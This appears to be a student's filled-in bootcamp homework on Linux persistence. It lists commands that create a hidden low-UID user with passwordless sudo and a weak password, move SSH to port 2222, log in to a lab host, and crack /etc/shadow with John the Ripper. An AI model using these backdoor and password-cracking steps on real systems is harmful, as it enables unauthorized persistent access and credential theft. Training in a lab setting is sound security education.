

## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd`


    

2. Give your secret user a password: 
    - `1234`
    

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 888 sysd`
    

4. Give your secret user the same GID:
   - `sudo groupmod -g 888 sysd`


    

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo then in visudo I typed sysd ALL=(ALL:ALL) NOPASSWD:ALL`

    verify no home dir: 

 

   

6. Test that `sudo` access works without your password:

    ```bash
    (ALL : ALL) NOPASSWD: ALL
    ```



**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    ```


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemcrl restart ssh`


2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`


4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

    This was sooooo coooool!


<br>

this is with --show way cool.


I know it looks like a typo but I ran it again as you can see with shadow not shaow lol.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

